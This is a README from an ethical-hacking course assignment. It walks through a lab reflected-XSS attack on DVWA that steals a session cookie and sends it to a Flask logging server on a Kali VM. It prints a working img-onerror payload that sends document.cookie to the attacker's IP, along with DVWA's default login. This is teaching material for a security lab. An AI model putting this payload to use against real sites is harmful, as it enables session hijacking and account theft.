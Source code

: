 # Cookie-Stealer

Q2 – Cookie Stealer (CSCI369 Ethical Hacking Assignment)

Description:
-------------
This project demonstrates a reflected XSS attack to steal a session cookie from a vulnerable web application (DVWA) and send it to a Flask server running on the attacker machine (Kali Linux). The stolen cookie is saved with a timestamp into a file called cookies.txt.

Environment Setup:
--------------------
Attacker: Kali Linux (IP: 10.0.2.15)
Victim: Meta2 VM (IP: 10.0.2.4)
Target Web App: DVWA (Damn Vulnerable Web App), accessible at http://10.0.2.4/dvwa

All VMs should be on the same NAT network and able to ping each other.

Files in this folder:
----------------------
1. stealer.py         - Python Flask web server that logs stolen cookies
2. xss_payload.txt    - JavaScript payload used for the XSS injection
3. README.txt         - This file (setup guide and explanation)

Instructions:
----------------
1. Set up Flask server on Kali:
   - Open terminal:
     sudo apt update
     sudo apt install python3-venv -y
   - Set up project folder:
     mkdir ~/myproject
     cd ~/myproject
     python3 -m venv venv
     source venv/bin/activate
     pip install Flask
   - Save stealer.py in this folder
   - Run the server:
     python3 stealer.py

2. Access DVWA from Kali browser:
   - Visit: http://10.0.2.4/dvwa
   - Login with: admin / password
   - Go to: DVWA Security → Set to "Medium"
   - Navigate to: XSS (Reflected)

3. Inject the XSS payload into the "What’s your name?" field:
   <img src=x onerror="new Image().src='http://10.0.2.15:8080/?cookie='+document.cookie;">

   (This payload is also saved in xss_payload.txt)

4. After clicking "Submit", the script will run silently in the browser and send the cookie to your Flask server.

5. In Kali terminal, check if the cookie was received:
   cd ~/myproject
   cat cookies.txt

   You should see a line like:
   [2025-07-25 18:43:01] Cookie: PHPSESSID=xyz123; security=medium

How it works:
----------------
- The attacker injects a JavaScript payload into a vulnerable input field.
- When DVWA reflects the input and the page loads, the browser runs the script.
- The script extracts document.cookie and sends it via an HTTP GET request to the attacker's Flask server.
- The Flask server writes the stolen cookie into cookies.txt with a timestamp.

Disclaimer:
--------------
This project is for academic and ethical hacking purposes only. Do not use these techniques on real systems without permission. Unauthorized hacking is illegal.

Assignment Requirements Covered:
-----------------------------------
- Flask app to receive and log cookies ✔
- Timestamp using datetime module ✔
- Final XSS payload in text file ✔
- Tested on DVWA with "Medium" security ✔
